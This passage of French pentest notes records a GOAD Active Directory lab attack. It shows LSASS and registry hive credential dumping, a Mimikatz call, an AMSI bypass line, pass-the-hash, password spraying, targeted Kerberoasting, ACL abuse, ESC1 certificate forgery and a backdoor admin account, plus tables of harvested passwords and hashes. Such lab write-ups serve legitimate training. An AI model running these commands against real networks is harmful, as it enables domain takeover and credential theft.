 console       robb.stark   1    Active  ← SESSION RDP ACTIVE
 rdp-tcp                  65536  Listen
```

> robb.stark a une session RDP active sur WINTERFELL → ses credentials sont potentiellement en mémoire LSASS.

**Tentative dump LSASS avec lsassy (module netexec) :**
```bash
netexec smb 192.168.56.11 \
-u Administrator \
-H dbd13e1c4e338284ac4e9874f7de6ef4 \
-M lsassy
```
```
[+] north.sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 (Pwn3d!)
(aucun hash supplémentaire extrait — lsassy n'a pas trouvé de creds en clair)
```

**Tentative Mimikatz (ECHEC AV) :**
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```
```
This script contains malicious content and has been blocked by your antivirus software.
```

**Tentative AMSI bypass (ECHEC) :**
```powershell
S[R]ef.Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
```
Method invocation failed because [System.String] does not contain a method named 'GetField'.
```

**Extraction ruches registre (méthode stealth) :**
```powershell
reg save HKLM\SAM sam.hiv
reg save HKLM\SYSTEM sys.hiv
reg save HKLM\SECURITY sec.hiv
```
```
The operation completed successfully. (×3)
```

```bash
# Analyse sur Kali
impacket-secretsdump \
-sam sam.hiv -system sys.hiv -security sec.hiv LOCAL
```

**Résultat — DCC2 cached credentials trouvés :**
```
$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a (cached)
$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405 (cached)
```

> ⚠️ DCC2 ≠ Hash NTLM — non utilisable directement pour Pass-the-Hash ou certipy.
> Le vrai hash NTLM de robb.stark est `831486ac7f26860c9e2f51ac91e1a07a` (issu du NTDS dump de WINTERFELL section 5.7).

---

## 🔑 Tableau credentials global {#creds}

| # | User | Password | Hash NTLM | Domaine | Source | Accès obtenu |
|---|------|----------|-----------|---------|--------|-------------|
| 1 | brandon.stark | `iseedeadpeople` | `84bbaa1c58b7f69d2192560a3f932129` | north.sevenkingdoms.local | ASREPRoast + john | SMB/SYSVOL WINTERFELL |
| 2 | jeor.mormont | `_L0ngCl@w_` | `6dccf1c567c56a40e56691a723a49664` | north.sevenkingdoms.local | SYSVOL cleartext | 🔴 Pwn3d! CASTELBLACK |
| 3 | sql_svc | `YouWillNotKerboroast1ngMeeeeee` | `84a5092f53390ea48d660be52b93b804` | north.sevenkingdoms.local | LSA dump en clair | 🔴 MSSQL RCE CASTELBLACK |
| 4 | sansa.stark | `iknownothing` | `b777555c2e2e3716e075cc255b26c14d` | north.sevenkingdoms.local | Kerberoast + john | Constrained Delegation TODO |
| 5 | Administrator (north) | - | `dbd13e1c4e338284ac4e9874f7de6ef4` | north.sevenkingdoms.local | SAM dump CASTELBLACK + NTDS | 🔴 Pwn3d! CASTELBLACK + WINTERFELL |
| 6 | vagrant | - | `e02bc503339d51f71d913c245d35b50b` | CASTELBLACK local | SAM dump | User local |
| 7 | hacker | `Password123!` | `2b576acbe6bcfda7294d6bd18041b8fe` | CASTELBLACK local | Créé via GodPotato | Admin local backdoor |
| 8 | **krbtgt** | - | **`68a0a74138bd5c949d528437c0c371d1`** | north.sevenkingdoms.local | NTDS dump WINTERFELL | 🔴 Golden Ticket inter-domaine |
| 9 | robb.stark | ??? | `831486ac7f26860c9e2f51ac91e1a07a` | north.sevenkingdoms.local | NTDS dump WINTERFELL | En cours d'exploitation |
| 10 | arya.stark | ??? | `4f622f4cd4284a887228940e2ff4e709` | north.sevenkingdoms.local | NTDS dump WINTERFELL | Non exploité |
| 11 | eddard.stark | ??? | `d977b98c6c9282c5c478be1d97b237b8` | north.sevenkingdoms.local | NTDS dump WINTERFELL | Non exploité |
| 12 | catelyn.stark | ??? | `cba36eccfd9d949c73bc73715364aff5` | north.sevenkingdoms.local | NTDS dump WINTERFELL | Non exploité |
| 13 | jon.snow | ??? | `b8d76e56e9dac90539aff05e3ccb1755` | north.sevenkingdoms.local | NTDS dump WINTERFELL | Non exploité |
| 14 | CASTELBLACK$ | - | `dbeefc259656f0d14f1366dc00cd01d5` | north.sevenkingdoms.local | LSA machine account | Kerberos machine |
| 15 | WINTERFELL$ | - | `3cac26f009f33a8ea2132010e0683871` | north.sevenkingdoms.local | NTDS dump | Machine account DC |
| 16 | SEVENKINGDOMS$ | - | `53b0cb49ad4b98d11ab6eb158a895c17` | north.sevenkingdoms.local | NTDS dump | **Trust account inter-domaine** |

---

## 🗺️ Carte d'attaque {#carte}



---

## ⏭️ Next Steps {#next}

### ✅ Accompli
- [x] CASTELBLACK → SYSTEM (GodPotato)
- [x] WINTERFELL → Domain Admin north (Pass-the-Hash)
- [x] NTDS dumpé → 19 hashes dont krbtgt
- [x] sansa.stark:iknownothing (Kerberoast)
- [x] BloodHound collecté

---

### Priorité 1 — ESC1 KINGSLANDING (demain)

**Pourquoi ça a bloqué :** Le template ESC1 n'autorise que `SEVENKINGDOMS\Domain Users` → un user north ne peut pas s'inscrire directement.

**Solution — trouver un user de sevenkingdoms.local :**
```bash
# Option A : tester les hashes north sur KINGSLANDING
netexec smb 192.168.56.10 \
-u jeor.mormont \
-H 6dccf1c567c56a40e56691a723a49664 \
-d north.sevenkingdoms.local

# Option B : certipy avec le bon /etc/hosts
sudo sh -c "echo '192.168.56.10 kingslanding.sevenkingdoms.local sevenkingdoms.local' >> /etc/hosts"

certipy req \
-u 'jeor.mormont@north.sevenkingdoms.local' \
-hashes ':6dccf1c567c56a40e56691a723a49664' \
-target kingslanding.sevenkingdoms.local \
-ca SEVENKINGDOMS-CA \
-template ESC1 \
-upn administrator@sevenkingdoms.local \
-dc-ip 192.168.56.10
```

---

### Priorité 2 — Chaîne ACL sevenkingdoms.local (EN COURS) ← vrai chemin

**Pourquoi c'est le vrai chemin :** Le firewall KINGSLANDING bloque Kali intentionnellement (confirmé par le prof). Le chemin prévu dans la doc GOAD est la chaîne ACL, pas ESC1. Toutes les commandes AD passent par WINTERFELL via le trust.

---

### Priorité 3 — NTDS KINGSLANDING → Full Forest Admin

Une fois Shell sur KINGSLANDING via la chaîne ACL :
```bash
netexec smb 192.168.56.10 \
-u Administrator \
-H <HASH_ADMIN_SEVENKINGDOMS> \
--ntds
```

---

Tags : #goad #pentest #recon #enum #exploit #post-exploit #lateral-movement #castelblack #winterfell #kingslanding #north #sevenkingdoms #ntds #kerberoast #esc1 #acl #targeted-kerberoast

---

## 🔗 Phase 7 — Chaîne ACL sevenkingdoms.local {#acl}

> **Objectif :** Exploiter la chaîne ACL documentée dans GOAD pour atteindre Domain Admin sevenkingdoms.local depuis tywin.lannister.

**Note importante :** Le firewall KINGSLANDING bloque toutes les connexions depuis Kali (10.8.0.6) — c'est voulu par le prof. Les commandes AD qui nécessitent KINGSLANDING passent toutes via evil-winrm WINTERFELL, qui lui peut joindre le DC root via le trust forest.

**Chaîne complète :**
```
tywin.lannister   →  ForceChangePassword  →  jaime.lannister    ✅ FAIT
jaime.lannister   →  GenericWrite         →  joffrey.baratheon  ← en cours
joffrey.baratheon →  WriteDACL            →  tyron.lannister
tyron.lannister   →  Self-membership      →  Small Council
Small Council     →  RDP                  →  KINGSLANDING
```

---

### 7.1 Découverte de tywin.lannister via secret.ps1

On avait un fichier `secret.ps1` dans SYSVOL avec un secret AES chiffré. On le déchiffre depuis le shell CASTELBLACK (jeor.mormont) :

```powershell
$keyData = 177,252,228,64,28,91,12,201,20,91,21,139,255,65,9,247,41,55,164,28,75,132,143,71,62,191,211,61,154,61,216,91
$secret = "76492d1116743f0423413b16050a5345MgB8AGkAcwBDACsAUwArADIAcABRAEcARABnAGYAMwA3AEEAcgBFAEIAYQB2AEEAPQA9AHwAZQAwADgANAA2ADQAMABiADYANAAwADYANgA1ADcANgAxAGIAMQBhAGQANQBLAGYAYQBiADQAYQA2ADkAZgBLAGQAMQAzADAANQAyADUAMgAyADYANAA3ADAAZABiAGEAOAA0AGUAOQBkAGMAZABmAGEANAAyADkAZgAyADIAMwA="
$secureString = $secret | ConvertTo-SecureString -Key $keyData
$cred = New-Object PSCredential("user", $secureString)
$cred.GetNetworkCredential().Password
```

Résultat : `powerkingftw135`

Spray sur sevenkingdoms.local pour identifier à qui appartient ce password :

```bash
netexec smb 192.168.56.10 \
-u /tmp/users_seven.txt \
-p 'powerkingftw135' \
-d sevenkingdoms.local \
--continue-on-success
```

```
tywin.lannister   → VALIDE ✅
robert.baratheon  → STATUS_ACCOUNT_RESTRICTION (pwd correct, compte restreint)
```

> ✅ **tywin.lannister:powerkingftw135**

---

### 7.2 Étape 1 — ForceChangePassword tywin → jaime ✅

tywin a le droit `ForceChangePassword` sur jaime. Ça permet de changer un password sans connaître l'ancien — droit dangereux en production.

Depuis evil-winrm WINTERFELL (en tant qu'Administrator north), on exécute la commande avec les credentials de tywin pour atteindre KINGSLANDING via le trust :

```powershell
$pass = ConvertTo-SecureString "powerkingftw135" -AsPlainText -Force
$cred = New-Object PSCredential("sevenkingdoms.local\tywin.lannister", $pass)
$newPass = ConvertTo-SecureString "Jaime123!" -AsPlainText -Force

Set-ADAccountPassword -Identity jaime.lannister `
  -Server kingslanding.sevenkingdoms.local `
  -Credential $cred `
  -Reset `
  -NewPassword $newPass
```

Aucune erreur → password changé.

> ✅ **jaime.lannister:Jaime123!**

---

### 7.3 Étape 2 — GenericWrite jaime → joffrey (Targeted Kerberoast)

jaime a `GenericWrite` sur joffrey. GenericWrite permet de modifier les attributs AD d'un compte, notamment d'y ajouter un SPN. Une fois un SPN ajouté à joffrey, on peut lui demander un ticket Kerberos (TGS) et le cracker offline pour récupérer son password.

**Ajout du SPN sur joffrey depuis evil-winrm WINTERFELL :**

```powershell
$passJaime = ConvertTo-SecureString "Jaime123!" -AsPlainText -Force
$credJaime = New-Object PSCredential("sevenkingdoms.local\jaime.lannister", $passJaime)

Set-ADUser -Identity joffrey.baratheon `
  -ServicePrincipalNames @{Add='fake/spn'} `
  -Server kingslanding.sevenkingdoms.local `
  -Credential $credJaime
```

Vérification que le SPN est bien là :

```powershell
Get-ADUser -Identity joffrey.baratheon `
  -Server kingslanding.sevenkingdoms.local `
  -Credential $credJaime `
  -Properties ServicePrincipalName
```

```
ServicePrincipalName : {fake/spn}
SID                  : S-1-5-21-3237389679-363996874-134484376-1117
```

> ✅ **SPN fake/spn ajouté à joffrey.baratheon**

**Récupération du TGS via impersonation C# en mémoire (depuis evil-winrm WINTERFELL) :**

On a codé un bloc C# inline via `Add-Type` qui fait un `LogonUser` en tant que jaime (NETONLY logon type 9) puis demande le TGS Kerberos pour `fake/spn`. Le ticket est récupéré en base64 :

```powershell
# [code Add-Type KerbReq inline - cf section C# impersonation]
$tgsBase64 = [KerbReq]::GetTGS("jaime.lannister", "sevenkingdoms.local", "Jaime123!", "fake/spn")
$tgsBase64 | Out-File C:\Windows\Temp\tgs.txt -Encoding ASCII -Force
```

Résultat : ticket TGS en base64 récupéré (1758 bytes une fois décodé).

**Download du ticket depuis evil-winrm :**

```
download tgs.txt /home/kali/Desktop/GOAD/tgs_joffrey.b64
```

**Problème rencontré :** le format retourné par `KerberosRequestorSecurityToken.GetRequest()` est une requête AS-REQ (envoi vers KDC), pas un TGS-REP crackable directement. Il faut utiliser `targetedKerberoast.py` qui gère tout le cycle proprement.

**Solution — targetedKerberoast.py (à faire une fois internet accessible) :**

```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast.git ~/Desktop/GOAD/targetedKerberoast

python3 ~/Desktop/GOAD/targetedKerberoast/targetedKerberoast.py -v \
-d sevenkingdoms.local \
-u jaime.lannister \
-p 'Jaime123!' \
--request-user joffrey.baratheon \
--dc-ip 192.168.56.11
```

Le `-dc-ip 192.168.56.11` pointe vers WINTERFELL qui relaye la requête Kerberos vers KINGSLANDING via le trust — contournement du firewall.

**Crack du hash TGS :**

```bash
hashcat -m 13100 joffrey.hash /usr/share/wordlists/rockyou.txt --force
```

> ⏳ **EN COURS — hash TGS joffrey récupéré, crack en attente**

---

### 7.4 Étape 3 — WriteDACL joffrey → tyron (TODO)

Une fois joffrey cracké, il a `WriteDACL` sur tyron.lannister. On utilise dacledit.py pour donner FullControl à joffrey sur tyron, puis on change le password de tyron.

```bash
# Installer impacket fork (dacledit)
git clone https://github.com/ThePorgs/impacket.git
cd impacket && pip3 install . --break-system-packages

impacket-dacledit \
-action 'write' \
-rights 'FullControl' \
-principal joffrey.baratheon \
-target 'tyron.lannister' \
-dc-ip 192.168.56.11 \
'sevenkingdoms.local'/'joffrey.baratheon':'<JOFFREY_PWD>'
```

---

### 7.5 Étape 4 — Self-membership tyron → Small Council (TODO)

tyron a `Self-membership` sur le groupe Small Council. Il peut s'y ajouter lui-même.

```bash
# Via ldeep ou net rpc group
ldeep ldap \
-u tyron.lannister \
-p '<TYRON_PWD>' \
-d sevenkingdoms.local \
-s ldap://192.168.56.11 \
add_to_group \
"CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" \
"CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

---

### 7.6 Étape 5 — RDP Small Council → KINGSLANDING (TODO)

Small Council a le droit RDP sur KINGSLANDING. Une fois tyron dans le groupe :

```bash
xfreerdp /v:192.168.56.10 \
/u:tyron.lannister \
/p:'<TYRON_PWD>' \
/d:sevenkingdoms.local
```

Depuis le RDP, on escalade vers Domain Admin via les autres ACL disponibles (petyer.baelish, lord.varys, maester.pycelle → Domain Admins).

---

---

## 🖥️ Infrastructure du lab {#infra}


```
                        INTERNET
                           │
                    [Serveur Cloud]
                           │
                    ┌──────┴──────┐
                    │   VPN GW    │
                    │  10.8.0.1   │
                    └──────┬──────┘
                           │ tun0
                    [Kali 10.8.0.6]
                           │
                    192.168.56.0/24
          ┌────────────────┼────────────────┐
          │                │                │
   192.168.56.10    192.168.56.11    192.168.56.22
   KINGSLANDING      WINTERFELL      CASTELBLACK
   DC01              DC02            SRV02
   sevenkingdoms     north           north
   WS2019            WS2019          WS2019
   Defender ON       Defender ON     Defender OFF
   ADCS (CA)         LDAP/Kerberos   IIS/MSSQL
   ⚠️ FW→Kali        ✅ Accessible   ✅ Accessible
```

**Domaines et trust :**
```
sevenkingdoms.local (Forest Root)
    └── north.sevenkingdoms.local (Child domain)
         ↔ trust bidirectionnel
```

**Firewall KINGSLANDING :** bloque toutes connexions TCP depuis Kali (by design). Accessible uniquement depuis WINTERFELL via le trust interne.

---

## 🗺️ Cartographie BloodHound — Chemins d'attaque {#bloodhound}



**Chaîne ACL sevenkingdoms.local identifiée :**

```
TYWIN.LANNISTER@SEVENKINGDOMS.LOCAL
    │
    │ ForceChangePassword
    ▼
JAIME.LANNISTER@SEVENKINGDOMS.LOCAL
    │
    │ GenericWrite
    ▼
JOFFREY.BARATHEON@SEVENKINGDOMS.LOCAL
    │
    │ WriteDacl
    ▼
TYRON.LANNISTER@SEVENKINGDOMS.LOCAL
    │
    │ AddSelf
    ▼
SMALL COUNCIL@SEVENKINGDOMS.LOCAL
    │
    │ AddMember
    ▼
DRAGONSTONE@SEVENKINGDOMS.LOCAL
    │
    │ WriteOwner
    ▼
KINGSGUARD@SEVENKINGDOMS.LOCAL
    │
    │ GenericAll
    ▼
STANNIS.BARATHEON@SEVENKINGDOMS.LOCAL
    │
    │ GenericAll on Computer
    ▼
KINGSLANDING.SEVENKINGDOMS.LOCAL (DC01) 🔴
```

**Autres chemins identifiés :**
```
LORD.VARYS     → GenericAll → Domain Admins
PETYER.BAELISH → WriteProperty → Domain Admins
MAESTER.PYCELLE→ WriteOwner → Domain Admins
STANNIS        → WriteProperty Self-membership → Domain Admins
```

---

## 🎫 Kerberos — TGT, TGS et attaques {#kerberos}

**Le protocole Kerberos en 6 étapes :**

```
┌─────────┐                    ┌──────────────┐
│  Client │                    │      DC      │
│ (User)  │                    │ (KDC/AS/TGS) │
└────┬────┘                    └──────┬───────┘
     │                                │
     │  1. AS-REQ (demande TGT)       │
     │ ─────────────────────────────► │
     │                                │
     │  2. AS-REP (TGT chiffré krbtgt)│
     │ ◄───────────────────────────── │
     │                                │
     │  3. TGS-REQ (TGT + service)    │
     │ ─────────────────────────────► │
     │                                │
     │  4. TGS-REP (ticket service)   │ ← KERBEROAST : on intercepte
     │ ◄───────────────────────────── │   ce ticket chiffré et on crack
     │                                │   offline avec hashcat/john
     │  5. AP-REQ (ticket → serveur)  │
     │ ──────────────────────────────────► [Service]
     │                                │
     │  6. AP-REP (accès accordé)     │
     │ ◄────────────────────────────────── [Service]
```

**ASREPRoast :** brandon.stark n'avait pas de pré-auth → on récupère le AS-REP directement sans s'authentifier → crack offline → `iseedeadpeople`

**Kerberoast :** sansa.stark avait un SPN → on demande un TGS → hash chiffré avec son password → crack → `iknownothing`

**Targeted Kerberoast :** on a ajouté un SPN à joffrey.baratheon via GenericWrite de jaime → on demande son TGS → crack

---

## 📜 Certipy — Exploitation ESC1 {#certipy}

**Principe ESC1 :**

```
Template "ESC1" sur SEVENKINGDOMS-CA :
  ✅ Enrollee Supplies Subject = True  ← on choisit l'identité
  ✅ Client Authentication = True      ← certificat utilisable pour auth
  ✅ Enrollment Rights = Domain Users  ← tout user sevenkingdoms peut s'inscrire
  ✅ Manager Approval = False          ← délivrance automatique
```

**Les 3 étapes certipy :**

```
┌─────────────────────────────────────────────────────┐
│  ÉTAPE 1 — FIND : trouver les templates vulnérables  │
│                                                      │
│  certipy find -u tywin@sevenkingdoms.local           │
│               -p powerkingftw135                     │
│               -dc-ip 192.168.56.11                   │
│               -stdout -text                          │
│                                                      │
│  → Template ESC1 identifié sur SEVENKINGDOMS-CA      │
└─────────────────────────────────────────────────────┘
                         │
                         ▼
┌─────────────────────────────────────────────────────┐
│  ÉTAPE 2 — REQ : demander un cert au nom d'admin     │
│                                                      │
│  certipy req -ca SEVENKINGDOMS-CA                    │
│              -u tyron@sevenkingdoms.local            │
│              -p 'Alc00L&S3x'                         │
│              -template ESC1                          │
│              -upn administrator@sevenkingdoms.local  │
│              -sid S-1-5-21-...-500                   │
│                                                      │
│  → administrator.pfx généré                          │
└─────────────────────────────────────────────────────┘
                         │
                         ▼
┌─────────────────────────────────────────────────────┐
│  ÉTAPE 3 — AUTH : s'authentifier avec le certificat  │
│                                                      │
│  certipy auth -pfx administrator.pfx                 │
│               -dc-ip 192.168.56.10                   │
│                                                      │
│  → Hash NTLM Administrator sevenkingdoms.local        │
│  → TGT Kerberos Administrator                        │
│  → Full Forest Admin 🔴                              │
└─────────────────────────────────────────────────────┘
```

---

## 🖥️ RDP brandon.stark → WINTERFELL {#rdp}

brandon.stark est dans le groupe **Starks** qui a accès RDP sur WINTERFELL et CASTELBLACK.

```bash
# RDP sur WINTERFELL avec brandon.stark
xfreerdp /v:192.168.56.11 \
/u:brandon.stark \
/p:iseedeadpeople \
/d:north.sevenkingdoms.local \
/cert-ignore
```

Résultat : shell PowerShell interactif sur WINTERFELL en tant que brandon.stark.

```
PS C:\Users\brandon.stark> pwd
Path
----
C:\Users\brandon.stark

PS C:\Users\brandon.stark> whoami
north\brandon.stark
```

---

## 🔑 Credentials découverts {#creds-final}

| User | Password | Hash NTLM | Source | Domaine |
|------|----------|-----------|--------|---------|
| brandon.stark | iseedeadpeople | 84bbaa1c... | ASREPRoast | north |
| jeor.mormont | _L0ngCl@w_ | 6dccf1c5... | SYSVOL cleartext | north |
| sql_svc | YouWillNotKerboroast1ngMeeeeee | 84a5092f... | LSA dump | north |
| sansa.stark | iknownothing | b777555c... | Kerberoast | north |
| Administrator (north) | - | dbd13e1c... | SAM dump | north |
| krbtgt (north) | - | fd1ac4ba... | NTDS dump | north |
| tywin.lannister | powerkingftw135 | - | secret.ps1 déchiffré | sevenkingdoms |
| jaime.lannister | Jaime123! | - | ForceChangePassword | sevenkingdoms |
| tyron.lannister | Alc00L&S3x | - | Partage SMB files | sevenkingdoms |

---

Tags : #goad #pentest #recon #enum #exploit #post-exploit #lateral-movement #castelblack #winterfell #kingslanding #north #sevenkingdoms #ntds #kerberoast #esc1 #acl #targeted-kerberoast #forcechangepassword #genericwrite #writedacl #adcs #certipy #bloodhound
